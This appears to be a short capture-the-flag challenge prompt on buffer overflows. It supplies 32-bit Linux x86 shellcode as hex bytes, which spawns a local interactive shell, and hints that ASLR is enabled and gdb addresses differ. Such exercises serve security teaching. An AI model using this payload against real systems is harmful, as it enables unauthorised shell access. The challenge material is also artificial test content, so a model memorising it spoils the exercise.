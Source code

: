 Have you heard of buffer overflows?

Here's a shellcode for you: 
\x31\xC0\xF7\xE9\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2D\x69\x69\x69\x89\xE6\x50\x56\x53\x89\xE1\xB0\x0B\xCD\x80

Stack addresses may differ in gdb.

ASLR is enabled. Can you figure out where to jump?
